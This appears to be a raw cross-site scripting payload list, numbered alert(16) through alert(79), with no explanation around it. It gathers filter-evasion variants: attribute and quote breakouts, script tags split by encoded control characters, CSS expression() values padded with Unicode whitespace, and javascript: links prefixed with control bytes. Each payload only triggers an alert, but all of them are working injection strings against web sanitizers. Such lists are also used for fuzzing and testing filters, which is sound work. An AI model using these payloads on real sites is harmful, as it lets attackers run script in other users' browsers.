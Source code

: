 ';alert(16);t='
JavaSCript:alert(17)
;alert(18);
src=JaVaSCript:prompt(19)
"><script>alert(20);</script x="
'><script>alert(21);</script x='
><script>alert(22);</script x=
" autofocus onkeyup="javascript:alert(23)
' autofocus onkeyup='javascript:alert(24)
<script\x20type="text/javascript">javascript:alert(25);</script>
<script\x3Etype="text/javascript">javascript:alert(26);</script>
<script\x0Dtype="text/javascript">javascript:alert(27);</script>
<script\x09type="text/javascript">javascript:alert(28);</script>
<script\x0Ctype="text/javascript">javascript:alert(29);</script>
<script\x2Ftype="text/javascript">javascript:alert(30);</script>
<script\x0Atype="text/javascript">javascript:alert(31);</script>
'`"><\x3Cscript>javascript:alert(32)</script>
'`"><\x00script>javascript:alert(33)</script>
ABC<div style="x\x3Aexpression(javascript:alert(34)">DEF
ABC<div style="x:expression\x5C(javascript:alert(35)">DEF
ABC<div style="x:expression\x00(javascript:alert(36)">DEF
ABC<div style="x:exp\x00ression(javascript:alert(37)">DEF
ABC<div style="x:exp\x5Cression(javascript:alert(38)">DEF
ABC<div style="x:\x0Aexpression(javascript:alert(39)">DEF
ABC<div style="x:\x09expression(javascript:alert(40)">DEF
ABC<div style="x:\xE3\x80\x80expression(javascript:alert(41)">DEF
ABC<div style="x:\xE2\x80\x84expression(javascript:alert(42)">DEF
ABC<div style="x:\xC2\xA0expression(javascript:alert(43)">DEF
ABC<div style="x:\xE2\x80\x80expression(javascript:alert(44)">DEF
ABC<div style="x:\xE2\x80\x8Aexpression(javascript:alert(45)">DEF
ABC<div style="x:\x0Dexpression(javascript:alert(46)">DEF
ABC<div style="x:\x0Cexpression(javascript:alert(47)">DEF
ABC<div style="x:\xE2\x80\x87expression(javascript:alert(48)">DEF
ABC<div style="x:\xEF\xBB\xBFexpression(javascript:alert(49)">DEF
ABC<div style="x:\x20expression(javascript:alert(50)">DEF
ABC<div style="x:\xE2\x80\x88expression(javascript:alert(51)">DEF
ABC<div style="x:\x00expression(javascript:alert(52)">DEF
ABC<div style="x:\xE2\x80\x8Bexpression(javascript:alert(53)">DEF
ABC<div style="x:\xE2\x80\x86expression(javascript:alert(54)">DEF
ABC<div style="x:\xE2\x80\x85expression(javascript:alert(55)">DEF
ABC<div style="x:\xE2\x80\x82expression(javascript:alert(56)">DEF
ABC<div style="x:\x0Bexpression(javascript:alert(57)">DEF
ABC<div style="x:\xE2\x80\x81expression(javascript:alert(58)">DEF
ABC<div style="x:\xE2\x80\x83expression(javascript:alert(59)">DEF
ABC<div style="x:\xE2\x80\x89expression(javascript:alert(60)">DEF
<a href="\x0Bjavascript:javascript:alert(61)" id="fuzzelement1">test</a>
<a href="\x0Fjavascript:javascript:alert(62)" id="fuzzelement1">test</a>
<a href="\xC2\xA0javascript:javascript:alert(63)" id="fuzzelement1">test</a>
<a href="\x05javascript:javascript:alert(64)" id="fuzzelement1">test</a>
<a href="\xE1\xA0\x8Ejavascript:javascript:alert(65)" id="fuzzelement1">test</a>
<a href="\x18javascript:javascript:alert(66)" id="fuzzelement1">test</a>
<a href="\x11javascript:javascript:alert(67)" id="fuzzelement1">test</a>
<a href="\xE2\x80\x88javascript:javascript:alert(68)" id="fuzzelement1">test</a>
<a href="\xE2\x80\x89javascript:javascript:alert(69)" id="fuzzelement1">test</a>
<a href="\xE2\x80\x80javascript:javascript:alert(70)" id="fuzzelement1">test</a>
<a href="\x17javascript:javascript:alert(71)" id="fuzzelement1">test</a>
<a href="\x03javascript:javascript:alert(72)" id="fuzzelement1">test</a>
<a href="\x0Ejavascript:javascript:alert(73)" id="fuzzelement1">test</a>
<a href="\x1Ajavascript:javascript:alert(74)" id="fuzzelement1">test</a>
<a href="\x00javascript:javascript:alert(75)" id="fuzzelement1">test</a>
<a href="\x10javascript:javascript:alert(76)" id="fuzzelement1">test</a>
<a href="\xE2\x80\x82javascript:javascript:alert(77)" id="fuzzelement1">test</a>
<a href="\x20javascript:javascript:alert(78)" id="fuzzelement1">test</a>
<a href="\x13javascript:javascript:alert(79)" id="fuzzelement1">test</a>